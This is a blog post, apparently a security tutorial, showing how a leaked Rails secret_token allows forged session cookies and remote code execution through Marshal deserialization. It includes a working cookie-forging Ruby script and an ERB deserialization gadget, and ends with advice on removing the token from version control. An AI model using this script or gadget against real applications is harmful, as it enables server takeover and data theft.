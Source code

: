 ```yaml
---
layout: post
title: How to hack a Rails app using its secret_token
---
```


Create a new Rails app, open `/config/initializers/secret_token.rb` and you'll see your app's `secret_token`. As I will show you, if anyone who wishes you harm gets hold of this string then they can execute arbitrary code on your server. Troublingly, the Rails default includes it in your version control, and if you don't remove it then anyone who gets or is given access to your codebase has complete, complete control over your server. Maybe you added them to your private repo for a code review, or unthinkingly put a side-project production app into a public repo, or someone sneaked a look at your Sublime while you were out. It doesn't matter - if they have this key then they own you.

### Why your `secret_token` is important - session cookies

Your `secret_token` is used for verifying the integrity of your app's session cookies. A session cookie will look something like:

{% highlight ruby %}
    _MyApp_session=BAh7B0kiD3Nlc3Npb25faWQGOgZFRkkiJTcyZTAwMmRjZTg2NTBiZmI0M2UwZmY0MjEyNGJjODBhBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMWhmYTBKSGQwYVQxRlhnTFZWK2FEZEVhbEtLbDBMSitoVEo5YU4zR2dxM3M9BjsARg%3D%3D--dc40a55cd52fe32bb3b84ae0608956dfb5824689
{% endhighlight %}

The cookie value (the part after the `=`) is split into 2 parts, separated by `--`. The first part is a Base64 encoded serialization of the hash that Rails will use as the `session` variable in controllers. The second part is a signature created using `secret_token`, that Rails uses to check that the cookie it has been passed is legit. This prevents users from forging nefarious cookies and from tricking Rails into loading data it doesn't want to load. Unless of course they have your `secret_token` and can also forge the signature...

### The serialized session hash

The first part of the cookie is a Marshal dump of the session hash, encoded in Base64. Marshal is a Ruby object serialization format that is used here to allow Rails to persist objects between requests made in the same session. In many cases it will only store the `session_id`, `_csrf_token` and Warden authentication data, but calling `session["foo"] = "bar"` in your controllers allows you to store pretty much anything you want. For my cookie above, unescaping the URL encoding and then Base64 decoding gives:

{% highlight ruby %}
    "\x04\b{\aI\"\x0Fsession_id\x06:\x06EFI\"%72e002dce8650bfb43e0ff42124bc80a\x06;\x00TI\"\x10_csrf_token\x06;\x00FI\"1hfa0JHd0aT1FXgLVV+aDdEalKKl0LJ+hTJ9aN3Ggq3s=\x06;\x00F"
{% endhighlight %}

which if you squint hard enough is indeed starting to look kind of like a hash. This cookie is passed up to the server with each request, Rails calls `Marshal.load` on it, and merrily populates `session` with whatever serialized objects it is passed. Object persistance between requests. Brilliant.

### The signature

But wait, the cookie obviously lives on the client side, which means that a user can set it to be anything they want. Which means that the user can pass in whatever serialized object they want to our app. And by the time we reinflate it and realise that they have passed us a small thermonuclear device, it will be too late and the attacker will be able to execute arbitrary code on our server.

That's where our `secret_token` and the second part of the cookie value (the part after the `--`) come in. Whenever Rails gets a session cookie, it checks that it hasn't been tampered with by verifying that the HMAC digest of the first part of the cookie with its `secret_token` matches the second, signature part. This means in order to craft a nefarious cookie an attacker would need to know the app's `secret_token`. Unfortunately, just being called `secret_token` doesn't make it secret, and, as already discussed, if you aren't careful then it can easily end up somewhere you don't want it to.

### The attack - how to bake a poisonous cookie

If you know an app's `secret_token` and want to forge a valid cookie, you simply need to reverse the above process:

{% highlight ruby %}
    require "net/http"
    require "uri"

    secret_token = "stolen-from-github-or-somewhere"

    # Construct your evil hash
    my_evil_session_hash = {
        "ive_made_a_huge_mistake" => true
    }

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump)

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_MyApp_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://myapp.com/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
      	http.request(req)
    end
{% endhighlight %}

This request will load `my_evil_session_hash` into `session`, which is purely on principal not good. But loading arbitrary strings and integers is not about to melt any servers. How can you choose the contents of your hash so as to actually do some damage? Some obsure objects buried deep inside Rails are happy to oblige:

{% highlight ruby %}   
    # Thanks to the folks at CodeClimate for pointing this out

    # The code in the ERB will run when Rails unserializes it
    erb = ERB.allocate
    erb.instance_variable_set :@src, "User.steal_all_passwords; User.email_spam_to_all_users;"
    
    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
    my_evil_session_hash = {
        "proxy_of_death" => Marshal.dump(proxy)
    }
    # ... continue as above
{% endhighlight %}

And presto.

### Knowing is half the battle

ALL of this trouble can be trivially avoided by taking `secret_token` out of your version control. Put it into an environment variable (<a href="https://github.com/bkeepers/dotenv">dotenv</a> is handy for local, it's easy on <a href="https://devcenter.heroku.com/articles/config-vars">Heroku</a> too) and you can sleep (a bit more) soundly at night. If you suspect that someone you wouldn't want to meet on a dark night knows your `secret_token` then you can simply change it. All your existing cookies will be invalidated, but nothing else bad will happen. Of course, you still don't want anyone you don't trust to get any kind of access to your codebase at all. But you can at least make life difficult for them even if they do.

### Thanks to

<a href="http://railssecurity.com" target="_blank">Rails Security by Code Climate</a>
and
<a href="http://techbrahmana.blogspot.co.uk/2012/03/rails-cookie-handling-serialization-and.html" target="_blank">TechBrahmana</a>


